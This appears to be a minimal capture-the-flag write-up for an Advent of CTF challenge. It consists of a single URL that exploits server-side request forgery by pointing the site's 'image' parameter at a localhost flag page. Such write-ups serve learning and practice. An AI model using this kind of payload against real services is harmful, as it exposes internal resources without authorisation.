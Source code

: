 #+TITLE: Writeup

#+begin_src
https://22.adventofctf.com/index.php?image=http://localhost/flag.php
#+end_src
